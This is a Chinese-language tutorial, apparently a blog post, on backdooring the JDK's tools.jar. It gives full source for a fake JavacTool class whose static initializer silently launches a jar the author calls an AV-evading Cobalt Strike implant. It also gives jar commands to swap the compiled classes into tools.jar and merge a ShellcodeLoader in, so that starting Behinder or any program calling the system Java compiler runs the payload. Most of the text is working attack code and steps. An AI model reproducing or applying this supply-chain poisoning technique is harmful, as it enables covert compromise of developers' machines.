






## Why do this

思路来源于最新版BX的更新。

想毒化一个官方jar，发现这个jar没开源，用IDEA看源码，改源码，替换jar里的class(无需重新打jar包)。

BX源码里有这样一句话：

	JavaCompiler jc = ToolProvider.getSystemJavaCompiler()

 	public static JavaCompiler getSystemJavaCompiler() {
        return instance().getSystemTool(JavaCompiler.class, defaultJavaCompilerName);
    }

	private static final String defaultJavaCompilerName
        = "com.sun.tools.javac.api.JavacTool";

ToolProvider 是官方的类，用来判断tools.jar这个工具jar包。

## How to generate an evil class

我写一个demo来实现这个类里的方法模拟BX或其他需要调用tools.jar的java程序，只要将 ToolProvider.java里用到的方法和常量拷贝过来即可，其中的getSystemToolClass 方法里的 ```c.asSubclass``` 会检查父类，子类的继承关系，所以需要实现 JavaCompiler 接口。

	private <T> Class<? extends T> getSystemToolClass(Class<T> clazz, String name) {
        Reference<Class<?>> refClass = toolClasses.get(name);
        Class<?> c = (refClass == null ? null : refClass.get());
        if (c == null) {
            try {
                c = findSystemToolClass(name);
            } catch (Throwable e) {
                return trace(WARNING, e);
            }
            toolClasses.put(name, new WeakReference<Class<?>>(c));
        }
        return c.asSubclass(clazz);  //clazz  interface javax.tools.JavaCompiler // 校验是否实现了接口,实现接口就不会抱错
    }

我通过新建同样的包名 ```com.sun.tools.javac.api```来让我的Main.java调用它来调试，以替代tools.jar里的包。

我的demo项目目录结构:



Main.java

	package b;
	
	import javax.tools.JavaCompiler;
	//import javax.tools.ToolProvider;
	import java.io.File;
	import java.lang.ref.Reference;
	import java.lang.ref.WeakReference;
	import java.net.MalformedURLException;
	import java.net.URL;
	import java.net.URLClassLoader;
	import java.util.HashMap;
	import java.util.Locale;
	import java.util.Map;
	import java.util.logging.Level;
	import java.util.logging.Logger;
	
	import static java.util.logging.Level.FINE;
	import static java.util.logging.Level.WARNING;
	
	public class Main {
	
	
	    private static final String defaultJavaCompilerName
	            = "com.sun.tools.javac.api.JavacTool";
	
	    public static void main(String[] args) {
	        System.out.println(Main.class.getName()); //b.Main
	        //JavaCompiler jc = ToolProvider.getSystemJavaCompiler();  // 把这段代码提取重写出来用于debug
	        new Main().getSystemTool(JavaCompiler.class, defaultJavaCompilerName);
	    }
	
	    private static final String propertyName = "sun.tools.ToolProvider";
	    private static final String loggerName = "javax.tools";
	    private static final String[] defaultToolsLocation = {"lib", "tools.jar"};
	
	    private Reference<ClassLoader> refToolClassLoader = null;
	
	    static <T> T trace(Level level, Object reason) {
	        // NOTE: do not make this method private as it affects stack traces
	        try {
	            if (System.getProperty(propertyName) != null) {
	                StackTraceElement[] st = Thread.currentThread().getStackTrace();
	                String method = "???";
	                String cls = Main.class.getName();
	                if (st.length > 2) {
	                    StackTraceElement frame = st[2];
	                    method = String.format((Locale) null, "%s(%s:%s)",
	                            frame.getMethodName(),
	                            frame.getFileName(),
	                            frame.getLineNumber());
	                    cls = frame.getClassName();
	                }
	                Logger logger = Logger.getLogger(loggerName);
	                if (reason instanceof Throwable) {
	                    logger.logp(level, cls, method,
	                            reason.getClass().getName(), (Throwable) reason);
	                } else {
	                    logger.logp(level, cls, method, String.valueOf(reason));
	                }
	            }
	        } catch (SecurityException ex) {
	            System.err.format((Locale) null, "%s: %s; %s%n",
	                    Main.class.getName(),
	                    reason,
	                    ex.getLocalizedMessage());
	        }
	        return null;
	    }
	
	    private <T> T getSystemTool(Class<T> clazz, String name) {
	        Class<? extends T> c = getSystemToolClass(clazz, name);
	        try {
	            return c.asSubclass(clazz).newInstance();
	        } catch (Throwable e) {
	            trace(WARNING, e);
	            return null;
	        }
	    }
	
	    private Map<String, Reference<Class<?>>> toolClasses = new HashMap<String, Reference<Class<?>>>();
	
	    private <T> Class<? extends T> getSystemToolClass(Class<T> clazz, String name) {
	        Reference<Class<?>> refClass = toolClasses.get(name);
	        Class<?> c = (refClass == null ? null : refClass.get());
	        if (c == null) {
	            try {
	                c = findSystemToolClass(name);
	            } catch (Throwable e) {
	                return trace(WARNING, e);
	            }
	            toolClasses.put(name, new WeakReference<Class<?>>(c));
	        }
	        return c.asSubclass(clazz);  //clazz  interface javax.tools.JavaCompiler // 校验是否实现了接口,实现接口就不会报错
	    }
	
	    private Class<?> findSystemToolClass(String toolClassName)
	            throws MalformedURLException, ClassNotFoundException {
	        // try loading class directly, in case tool is on the bootclasspath
	        try {
	            return Class.forName(toolClassName, false, null);
	        } catch (ClassNotFoundException e) {
	            trace(FINE, e);
	
	            // if tool not on bootclasspath, look in default tools location (tools.jar)
	            ClassLoader cl = (refToolClassLoader == null ? null : refToolClassLoader.get());
	            if (cl == null) {
	                File file = new File(System.getProperty("java.home"));
	                if (file.getName().equalsIgnoreCase("jre"))
	                    file = file.getParentFile();
	                for (String name : defaultToolsLocation)
	                    file = new File(file, name);  //file  C:\Program Files (x86)\Java\jdk1.8.0_181\lib\tools.jar
	
	                // if tools not found, no point in trying a URLClassLoader
	                // so rethrow the original exception.
	                if (!file.exists())
	                    throw e;
	
	                URL[] urls = {file.toURI().toURL()};
	                trace(FINE, urls[0].toString());
	
	                cl = URLClassLoader.newInstance(urls);
	                refToolClassLoader = new WeakReference<ClassLoader>(cl);
	            }
	
	            return Class.forName(toolClassName, false, cl);
	        }
	    }
	}

JavacTool.java demo

使用一个静态代码块，目的是当Main.java 执行 ```JavaCompiler jc = ToolProvider.getSystemJavaCompiler();``` 请求它的时候就会执行里面的代码。

静态代码块里面加入了子线程，目的是使植入代码块异步执行，不会阻塞主进程。

	new Thread() {
            public void run() {
				//your code
   			}
        }.start();

	System.out.println(1);

JavacTool.java

	package com.sun.tools.javac.api;
	
	import javax.lang.model.SourceVersion;
	import javax.tools.*;
	import java.io.*;
	import java.nio.charset.Charset;
	import java.util.ArrayList;
	import java.util.List;
	import java.util.Locale;
	import java.util.Set;
	
	
	public class JavacTool implements JavaCompiler {
	
	
	    static {
	        new Thread() {
	            public void run() {
	                try {
	                    String javaHome = System.getProperty("java.home");
	                    if (javaHome.contains("jre")) {
	                        javaHome = javaHome.split("jre")[0];
	                    } else {
	                        //javaHome = javaHome + "\\jre";
	                    }
	                    //System.out.println(javaHome);  // E:\jdk1.8\jre
	                    String line1 = "java -jar " + "\"" + javaHome + "lib\\rt1.jar" + "\"";  // v4.0.2
	                    //System.out.println(line1);
	                    String[] cmd = new String[]{"cmd", "/c", line1};
	                    Process ps = Runtime.getRuntime().exec(cmd);
	                    BufferedReader br = new BufferedReader(new InputStreamReader(ps.getInputStream()));
	                    StringBuffer sb = new StringBuffer();
	                    String line;
	                    while ((line = br.readLine()) != null) {
	                        sb.append(line).append("\n");
	                    }
	                    String result = sb.toString();
	                    //System.out.println(result);
	                } catch (Exception e) {
	                    //e.printStackTrace();
	                }
	            }
	        }.start();
	        System.out.println(1);
	    }
	
	    @Override
	    public CompilationTask getTask(Writer out, JavaFileManager fileManager, DiagnosticListener<? super JavaFileObject> diagnosticListener, Iterable<String> options, Iterable<String> classes, Iterable<? extends JavaFileObject> compilationUnits) {
	        return null;
	    }
	
	    @Override
	    public StandardJavaFileManager getStandardFileManager(DiagnosticListener<? super JavaFileObject> diagnosticListener, Locale locale, Charset charset) {
	        return null;
	    }
	
	    @Override
	    public int isSupportedOption(String option) {
	        return 0;
	    }
	
	    @Override
	    public int run(InputStream in, OutputStream out, OutputStream err, String... arguments) {
	        return 0;
	    }
	
	    @Override
	    public Set<SourceVersion> getSourceVersions() {
	        return null;
	    }
	}

这里的rt1.jar 是我制作的恶意免杀马，执行即上线cs，用于测试，后面我会将这个jar和目标jar合并成一个新的jar。

运行Main.java，cs上线。

这次我将rt1.java的执行jar名称替换成目标jar名称，同时利用IDEA打开tools.jar，将反编译的 JavacTool.class 全部代码拷贝出来，放到demo项目目录下```com.sun.tools.javac.api```的JavacTool.java，将上面调试成功的静态代码块内容塞到这个类里。

将这个JavacTool.java文件拷贝出来，用javac编译，```javac JavacTool.java```，可能提示有警告，这时使用 ```javac -Xlint:unchecked JavacTool.java``` 忽略警告编译，可能生成多个带```$```符号的class文件，表示源文件使用了匿名内部类。[java $.class_java文件编译后额外生成的$1.class是怎么一回事](https://blog.csdn.net/weixin_36078306/article/details/114043130)

## How to inject evil classes into jar

这个时候注意将编译好的class注入目标jar，无需解压整个jar包，只解压需要替换的class即可。

例如，将这三个class放到tools.jar同级目录，

	-rw-r--r-- 1 root root     1623  8月  9 19:09 'JavacTool$1.class'
	-rw-r--r-- 1 root root     1184  8月  9 19:09 'JavacTool$2.class'
	-rw-r--r-- 1 root root     8991  8月  9 19:09  JavacTool.class

### 查询需要替换的文件在jar中的位置

	jar tvf tools.jar|grep JavacTool



### 将要替换的class解压

注意遇到 ```$```符号加转义符号和双引号：

	jar xvf tools.jar com/sun/tools/javac/api/JavacTool.class
	jar xvf tools.jar "com/sun/tools/javac/api/JavacTool\$1.class"



### 将要植入的class替换到对应的解压目录里

	cp JavacTool.class com/sun/tools/javac/api/
	cp JavacTool\$1.class com/sun/tools/javac/api/
	cp JavacTool\$2.class com/sun/tools/javac/api/
	cd com/sun/tools/javac/api
	ll

可以看到时间戳更新了



### 将替换后的目录打包进jar文件 实现替换

	jar uvf tools.jar com/sun/tools/javac/api/JavacTool.class 
	jar uvf tools.jar "com/sun/tools/javac/api/JavacTool\$1.class"
	jar uvf tools.jar "com/sun/tools/javac/api/JavacTool\$2.class"

**替换好再查询，时间戳已更新**，至此，替换完成。



## 启动BX验证

cs上线成功。

## 优化

将rt1.jar和目标jar合并成一个新的jar。

修改 JavacTool.java里的命令，改成执行目标jar。

重新替换tools.jar：


	jar -xvf rt1.jar
	jar -xvf tools.jar

这里需要注意设置一个启动项，修改 META-INF 下的  MANIFEST.MF 配置文件，新增 ```Main-Class: ShellcodeLoader```，根据你的命名规则自定义。


	Manifest-Version: 1.0
	Created-By: 1.7.0_07 (Oracle Corporation)
	Main-Class: ShellcodeLoader

编译jar

	rm -f *.jar
	jar -cvfM tools.jar .   

将这个jar放在jdk_home ```jdk/lib/```目录下，打开BX，即可上线cs。




## reference

[linux 替换jar包内class文件](https://www.cnblogs.com/lovleo/p/15958981.html)

[JAVA如何合并多个jar包为一个jar](https://blog.csdn.net/chali1314/article/details/108843383)

[运行jar时提示，jar中没有主清单属性（已解决）](https://blog.csdn.net/weixin_56219549/article/details/122123158)

[java $.class_java文件编译后额外生成的$1.class是怎么一回事](https://blog.csdn.net/weixin_36078306/article/details/114043130)

[反编译中的 匿名内部类 this.val$的问题](https://blog.csdn.net/weixin_42023748/article/details/104870642)

[idea将java项目打成jar包](https://blog.csdn.net/supuerlovepc/article/details/124923980)

[idea创建web项目后，无法创建java文件](https://blog.csdn.net/qq_24712507/article/details/123245137)

[IDEA中配置maven环境](https://blog.csdn.net/qq_33957967/article/details/124573437)

[idea如何导入maven项目](https://blog.csdn.net/text_8/article/details/124268577)

[idea和maven设置代理](https://blog.csdn.net/qq_38653981/article/details/115858599)

[Idea报错Error:java: System Java Compiler was not found in classpath: java.lang.ClassNotFoundException:](https://blog.csdn.net/qq_45895576/article/details/116023422)

## 后记

过程中走了很多弯路，经历很多次试错。

例如：

1.最初想在jd-gui反编译代码基础上修改源码，这个思路尝试了发现重新build报错的class太多，将 JavapTask.java，ClassFile.java，Attribute.java 等替换，大概10几处吧。对照着IDEA 里的反编译 改了50几处，发现还是有很多报错，可见jd-gui反编译工具质量较低。想到这种官方包应该是开源的，有源码，去[MavenRepository官网](https://mvnrepository.com/) 找发现这个包没开源，后来在一位师傅点拨下尝试只替换一个class。


2.最初在jd-gui搜索tools.jar里面的方法，查看哪些被behinder.jar调用， 找到了 ```com.sun.tools.attach、sun.jvmstat、sun.tools.attach```等类，后来发现还是要拿BX源码去调试，就去搞了一份，后来证明这样做是对的，因为BX v4.0和BX v4.0.2验证逻辑改了。 之前改tools.jar里的类```sun\tools\attach\HotSpotVirtualMachine.java```理论上也是可以被调用的，但由于版本更新验证逻辑改了(我之前并不知情)，导致浪费了很多时间。

3.还有很多其他的...